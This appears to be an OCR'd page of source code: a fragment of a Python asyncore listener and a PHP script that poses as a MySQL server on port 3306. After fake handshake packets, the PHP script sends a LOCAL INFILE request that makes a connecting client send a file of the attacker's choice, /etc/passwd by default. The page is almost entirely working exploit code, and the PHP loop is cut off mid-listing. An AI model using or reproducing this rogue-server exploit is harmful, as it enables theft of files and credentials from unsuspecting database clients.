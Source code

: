 ```python
class mysql_listener(asyncore.dispatcher):
    def __init__(self, sock=None):
        asyncore.dispatcher.__init__(self, sock)

        if not sock:
            self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
            self.set_reuse_addr()
            try:
                self.bind(('', PORT))
            except socket.error:
                exit()

            self.listen(5)

    def handle_accept(self):
        pair = self.accept()

        if pair is not None:
            log.info('Conn from: %r', pair[1])
            tmp = http_request_handler(pair)


z = mysql_listener()
# daemonize()
asyncore.loop()

```

PHP

```php
<?php
function unhex($str) { return pack("H*", preg_replace('#[^a-f0-9]+#si', '', $str)); }

$filename = "/etc/passwd";

$srv = stream_socket_server("tcp://0.0.0.0:3306");

while (true) {
  echo "Enter filename to get [$filename] > ";
  $newFilename = rtrim(fgets(STDIN), "\r\n");
  if (!empty($newFilename)) {
    $filename = $newFilename;
  }

  echo "[.] Waiting for connection on 0.0.0.0:3306\n";
  $s = stream_socket_accept($srv, -1, $peer);
  echo "[+] Connection from $peer - greet... ";
  fwrite($s, unhex('45 00 00 00 0a 35 2e 31  2e 36 33 2d 30 75 62 75
                    6e 74 75 30 2e 31 30 2e  30 34 2e 31 00 26 00 00
                    00 7a 42 7a 60 51 56 3b  64 00 ff f7 08 02 00 00
                    00 00 00 00 00 00 00 00  00 00 00 00 64 4c 2f 44
                    47 77 43 2a 43 56 63 72  00                     '));
  fread($s, 8192);
  echo "auth ok... ";
  fwrite($s, unhex('07 00 00 02 00 00 00 02  00 00 00'));
  fread($s, 8192);
  echo "some shit ok... ";
  fwrite($s, unhex('07 00 00 01 00 00 00 00  00 00 00'));
  fread($s, 8192);
  echo "want file... ";
  fwrite($s, chr(strlen($filename) + 1) . "\x00\x00\x01\xFB" . $filename);
  stream_socket_shutdown($s, STREAM_SHUT_WR);
  echo "\n";
```